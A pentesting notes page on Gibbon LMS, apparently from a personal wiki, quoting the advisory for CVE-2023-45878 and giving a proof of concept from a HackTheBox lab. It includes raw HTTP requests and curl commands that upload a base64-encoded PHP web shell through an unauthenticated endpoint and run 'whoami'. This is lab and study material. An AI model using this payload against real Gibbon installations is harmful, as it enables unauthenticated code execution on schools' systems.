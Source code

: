 ```yaml
---
title: pentesting Gibbon LMS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CMS
  - gibbon
---
```

# Pentesting Gibbon LMS

Gibbon Edu is an open-source educational software designed for schools and institutions to manage their administrative and academic processes . It offers a range of features to facilitate communication, collaboration, and organization within the educational community.

## Well known vulnerabilities

### Version 25.0.01: unregistered arbitrary upload leading to remote code execution

HackTheBox machine: [The Frizz](htb-thefrizz.md).

Source: [https://herolab.usd.de/security-advisories/usd-2023-0025/](https://herolab.usd.de/security-advisories/usd-2023-0025/)

**Advisory ID**: usd-2023-0025  
**Product**: Gibbon (https://gibbonedu.org/)  
**Affected Version**: 25.0.01 (before commit '226d83568cf3d447c4d86d4e5aba2c6e6289045d')  
**Vulnerability Type**: CWE-434: Arbitrary File Write  
**Security Risk**: Critical  
**Vendor URL**: [https://gibbonedu.org](https://gibbonedu.org/)  
**Vendor acknowledged vulnerability**: Yes  
**Vendor Status**: Fixed  
**CVE Number**: CVE-2023-45878  
**CVE Link**: [https://nvd.nist.gov/vuln/detail/CVE-2023-45878](https://nvd.nist.gov/vuln/detail/CVE-2023-45878)


**Description**: Unauthenticated attackers can upload arbitrary files to the application and receive code execution on the underlying system.To receive RCE an attacker must craft a fake image which can be stored as PHP file.

**POC (from HackTheBox machine [The Frizz](htb-thefrizz.md))**:

The Rubrics module has a file rubrics_visualise_saveAjax.php (source )which can be accessed without being authenticated. The file accepts the img, path and gibbonPersonID as POST parameters. The payload must be base64 encoded seperated by ; and , characters.

Upload:

```html
POST /Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php HTTP/1.1
Host: frizzdc.frizz.htb
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 107

img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K&path=lala.php&gibbonPersonID=0000000001
```

Trigger:

```html
GET /Gibbon-LMS/lala.php?cmd=whoami HTTP/1.1
Host: frizzdc.frizz.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Cookie: G60fa1cd0af7be78b=kf7gpbsht6raqise6sogin25uq
Upgrade-Insecure-Requests: 1

```


**With curl:**

Upload:

```bash
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \
-H "Host: frizzdc.frizz.htb" \
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \
--data-urlencode "path=lele.php" \
--data-urlencode "gibbonPersonID=0000000001"
lele.php      
```

Trigger:

```bash
curl http://frizzdc.frizz.htb/Gibbon-LMS/lele.php?cmd=whoami
```



